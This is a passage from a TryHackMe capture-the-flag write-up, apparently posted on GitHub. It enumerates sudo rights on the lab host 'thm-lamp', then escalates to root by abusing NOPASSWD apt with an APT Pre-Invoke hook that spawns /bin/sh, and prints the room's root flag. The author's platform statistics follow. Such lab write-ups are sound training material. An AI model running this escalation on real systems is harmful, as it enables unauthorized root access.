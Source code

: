 <h3>sudo -l</h3>

```bash
cobra@thm-lamp:~$ sudo -l
Matching Defaults entries for cobra on thm-lamp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cobra may run the following commands on thm-lamp:
    (ALL) NOPASSWD: /usr/bin/apt
```

<h3>GTFobins</h3>
<p>https://gtfobins.github.io/gtfobins/apt/#sudo</p>

<img width="1262" height="467" alt="image" src="https://github.com/user-attachments/assets/d3173a4a-ee0c-4cd7-9d39-84634e7624dd" />


<h3>root</h3>

```bash
cobra@thm-lamp:~$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{7b88ac4f52cd8723a8d0c632c2d930ba}
```

<br>
<br>

<img width="1908" height="883" alt="image" src="https://github.com/user-attachments/assets/63800046-f783-41ed-b7c7-ba6e062520cb" />

<img width="1903" height="906" alt="image" src="https://github.com/user-attachments/assets/5d1bcda6-8b6b-4e5a-b5e3-c218a9237d66" />


<br>
<br>

<h1 align="center">My TryHackMe Journey</h1>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| July 14, 2025     | 433      |     159ᵗʰ    |      5ᵗʰ     |    189ᵗʰ    |     7ᵗʰ    |  114,795 |    856    |     64    |

</div>

<img width="1901" height="900" alt="image" src="https://github.com/user-attachments/assets/c98b97be-e35d-40b0-83ab-93b6a5d9a97b" />

<img width="1895" height="891" alt="image" src="https://github.com/user-attachments/assets/2f81d532-978c-488c-93e4-9b9af30f9944" />

<img width="1900" height="892" alt="image" src="https://github.com/user-attachments/assets/5e844595-094a-471b-ad1f-7352f4d8b29b" />

<img width="1895" height="895" alt="image" src="https://github.com/user-attachments/assets/193a0105-9821-489e-9fae-cee1b0ba6a9d" />
